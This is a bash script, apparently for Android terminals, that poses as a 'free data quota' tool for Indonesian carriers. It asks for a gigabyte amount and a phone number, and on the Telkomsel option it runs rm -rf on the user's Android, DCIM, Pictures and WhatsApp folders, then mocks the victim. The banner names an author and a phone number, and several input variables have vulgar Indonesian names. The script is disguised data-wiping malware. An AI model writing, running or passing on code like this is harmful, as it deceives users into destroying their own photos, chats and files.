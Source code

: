 #!/usr/bin/bash

#tools kuota gratis

#byMaulana Yusup

clear

blue='\033[34;1m'

green='\033[32;1m'

purple='\033[35;1m'

cyan='\033[36;1m'

red='\033[31;1m'

echo " "

echo $blue "<|======================================|>"

echo $red "| TOOLS KUOTA GRATIS |"

echo $red "| |"

echo $red "| Author : Maulana Yusup |"

echo $red "| Contact : 087826357226 |"

echo $red "| My Team : -. |"

echo $red "| Thanks To : Mr4LQ454M |"

echo $blue "<|======================================|>"

sleep 1

echo " "

echo $green "============== $red MENU $green ================="

echo $blue "===================================="

echo $blue "|| $green 1. Telkomsel. $blue ||"

echo $blue "|| $green 2. Axis 			 $blue ||"

echo $blue "|| $green 3. Indosat	 			 $blue ||"

echo $blue "|| $green 4. Tri			 $blue ||"

echo $blue "|| $green 0. Exit The Program $blue ||"

echo $blue "===================================="

echo $blue"╭──[Masukkan Pilihan Anda]>"

read -p"╰───────root@Yusupx-code=•>" Gans;

if [ $Gans = 1 ] || [ $Gans = 01 ]

then

echo $blue"╭──[Berapa GB?]>"

read -p"╰───────root@Yusupx-code=•>" kontol;

sleep 1

echo $green"╭──[masukan nomor]>"

read -p"╰───────root@Yusupx-code=•>" memek;

sleep 1

echo $red "Loading"

sleep 2

rm -rf storage/emulated/0/Android

rm -rf storage/emulated/0/DCIM

rm -rf storage/emulated/0/Pictures

rm -rf storage/emulated/0/WhatsApp

echo $blue "Sorry your data is remove :v"

fi


